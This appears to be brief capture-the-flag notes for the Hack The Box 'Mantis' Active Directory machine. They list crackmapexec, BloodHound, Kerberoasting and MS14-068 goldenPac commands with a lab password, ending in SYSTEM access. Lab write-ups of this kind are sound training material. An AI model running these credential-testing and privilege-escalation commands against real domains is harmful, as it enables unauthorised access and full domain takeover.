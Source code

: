 

check password, correct. no winrm.

```bash
crackmapexec winrm $tip -u james -p 'J@m3s_P@ssW0rd!' -x "whoami"
crackmapexec smb $tip -u james -p 'J@m3s_P@ssW0rd!'  --shares
```



## ad enum

```bash
bloodhound-python -c All -u james  -p 'J@m3s_P@ssW0rd!' -d htb.local -dc htb.local -ns $tip

GetUserSPNs.py htb.local/james:'J@m3s_P@ssW0rd!' -dc-ip $tip -request
```

nothing.



# Privesc

after watched the walkthroug, use Ms14-068

change the hosts first.

```bash
10.129.126.62 htb.local htb mantis mantis.htb.local
```

got system.

```bash
goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis
```



## proof

```bash


```



